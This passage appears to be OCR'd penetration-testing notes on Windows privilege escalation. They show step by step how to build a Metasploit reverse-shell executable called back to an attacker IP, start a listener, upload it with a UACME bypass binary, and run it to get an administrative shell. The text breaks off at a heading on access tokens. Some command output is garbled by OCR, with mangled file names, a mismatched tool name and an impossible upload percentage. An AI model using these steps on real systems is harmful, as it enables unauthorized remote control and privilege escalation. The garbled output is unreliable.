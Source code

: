 
2. Create a meterpreter payload to get a shell in the target.
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe
```

3. Start a listener in for the payload
```bash
msf > use exploit/multi/handler 
msf exploit(handler) > show targets ... a list of targets ... 
msf exploit(handler) > set TARGET target-id 
msf exploit(handler) > show options ... show and set options ... 
msf exploit(handler) > exploit
```

4. Upload the payload and the `Akamaix64.exe` then run it, and smash you got an admin privileges
``` bash
meterpreter > cd C:\\ 
meterpreter > mkdir Temp 
Creating directory: Temp 
# use none used direcory in your payloads

meterpreter > cd Temp 
meterpreter > upload backdoor.exe 
[-] uploading : /root/backdoor.exe -> backdoor.exe 
[-] Uploaded 72.67 KiB of 72.07 KiB (100.6%): /root/backdoor.exe -> backdoor.exe 

meterpreter > upload backdoor.exe 
[~] uploadin-72:67-x1B of 72.07 KiB (100.0%): /root7vackdudl.exe -> backdoor.exe [-] Uploaded : /root/backdoor.exe -> backdoor.exe 

meterpreter > upload root/Desktop/tools/Akamaix64.exe 
[-] uploading : /root/Desktop/tools/UACME/Akamaix64.exe -> Akamaix64.exe 
[~] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akamaix64.exe -> Akamaix64.exe - uploaded : /root/Desktop/tools/UACME/Akamaix64.exe -> Akamaix64, exe 

meterpreter > shell 
Process 2124 created. Froces! % created.

cmd> C:\Temp>.\Akagi64.exe 23 C:\Temp\backdoor.exe
```

5. Play around with the new administrative shell.
``` bash
meterpreter > migrate 688
meterpreter > sysinfo
meterpreter > getuid
```

## Windows Access Tokens

 Windows access tokens are a core element of the authentication process on Windows and are created and managed by the Local Security Authority Subsystem Service (LSASS).
 
![[Pasted image 20230414095704.png]]
